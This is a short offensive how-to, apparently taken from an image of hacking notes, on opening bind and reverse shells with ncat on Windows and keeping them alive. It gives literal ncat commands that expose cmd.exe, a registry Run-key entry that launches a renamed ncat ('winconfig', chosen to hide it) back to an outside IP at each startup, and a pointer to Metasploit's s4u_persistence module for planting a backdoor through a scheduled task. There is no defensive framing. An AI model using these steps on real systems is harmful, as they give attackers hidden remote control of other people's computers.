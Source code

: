 you can use ncat in a similar way to nc -e with. ncat -l -p 2121 -e cmd.exe for bind shell. or ncat -e cmd.exe IP PORT for reverse shell.

To get PERSISTENCE with ncat we can add a command key to the registry.

setup a listener on your machine.

in regedit, goto HKEY_LOCAL_MACHNE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run. Rightclik>New>String Value

set name is something like winconfig to hide ncat and set value as the path to the file and ip and port and -e to connect.eg "C:\Windows\System32\winconfig.exe 192.168.1.1 2121 -e cmd.exe"
this will run ncat at startup

this can be done through metasploit also and meterpreter to get more features than ncat.

in metasploit the s4u_persistence module gets persistence using an existing session to upload a backdoor and set scheduled task. so you can now startup a new listener and catch the reverse shell when its triggered.
